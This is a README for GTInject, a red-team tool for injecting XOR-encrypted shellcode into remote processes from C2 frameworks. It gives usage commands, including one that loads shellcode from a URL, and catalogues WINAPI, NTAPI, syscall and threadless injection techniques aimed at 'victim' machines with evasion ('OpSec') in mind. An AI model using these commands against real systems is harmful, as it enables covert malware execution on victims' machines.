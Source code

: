# GTInject
**Portable and Modular Remote Process Injection**

Remote process injection in C2 frameworks are often limited to one or two techniques built by the beacon developer. This tool is designed to offer mix and match memory allocation and thread execution techniques for process injection, with the goal of being portable accross C2 systems. 

It is largely inspired by the flexibility given within Brute Ratel, which made other C2 injection options feel extremely limited. I wanted to recreate that functionality for other C2s that I like using. 



## GTInject.exe Help Menu

## Usage: GTInject.exe \<module> \<moduleArgs>
       GTInject.exe threads
       GTInject.exe encrypt pathToSource.bin MySecretXorKey
       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

## Encrypt  -- for encrypting shellcode:
**Do this in preparation, NOT on the C2 victim machine.**

       GTInject.exe encrypt pathToSource.bin MySecretXorKey

Shellcode from your C2 will be multibyte XOR'd and written in various formats.

This is intended to help you use the injection option later with better OpSec.

## Threads  -- check for alertable threads:

       GTInject.exe threads


This will list alertable threads in all processes that you have access to. This is intended to help identify alertable threads, for injection options like QueueUserAPC.

By default, it filters out low and untrusted process integrities. 

Options include `GTinject.exe threads <all or alertable> <optional PID filter>` 

So you could show all threads in a process with `GTInject.exe threads all 4321`


## Inject   -- choose a process injection method

       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

Choose a technique integer for allocating the memory.

Then choose a technique integer for executing the thread.

Enter the XorKey to decrypt it with, the same one you used to encrypt the shellcode using the **encrypt** module.

Specify a location type where the encrypted shellcode is stored. Acceptable values are
- embedded 0
- url https://example.globetech.biz/hostedShellcode.b64
- disk 'C:\path\to\xord-shellcode.bin'

Specify the PID you want to inject into.

OPTIONALLY specify the TID (not all options need a Thread ID).

## Call Categories
- 100 Series - WINAPI
- 200 Series - NTAPI 
- 300 Series - Syscalls
- 400 Series - Misc or Novel Techniques

## Memory Options
        100. WINAPI  -- VirtualAllocEx, WriteProcessMemory
        200. NTAPI   -- NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        201. NTAPI   -- NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        300. SysCall -- Direct, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory 
        301. SysCall -- Direct, NtCreateSection, NtMapViewOfSection, RtlCopyMemory 
        302. SysCall -- Indirect, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        303. SysCall -- Indirect, NtCreateSection, NtMapViewOfSection, RtlCopyMemory

## ThreadExec Options
        100. WINAPI  -- CreateRemoteThread
        101. WINAPI  -- QueueUserAPC, ResumeThread - Must Specify Thread ID
        102. WINAPI  -- GetThreadContext, SetThreadContext - Thread ID Optional
        200. NTAPI   -- NtCreateThreadEx
        201. NTAPI   -- RtlCreateUserThread
        202. NTAPI   -- NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        300. SysCall -- Direct, NtCreateThreadEx
        301. SysCall -- Direct, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        302. SysCall -- Indirect, NtCreateThreadEx
        303. SysCall -- Indirect, NtQueueApcThread, NtResumeThread - Must Specify Thread ID
        400. Novel   -- ThreadlessInject, CreateEventW - does not honor memory option
        401. Novel   -- ThreadlessInject, LoadLibraryExW - does not honor memory option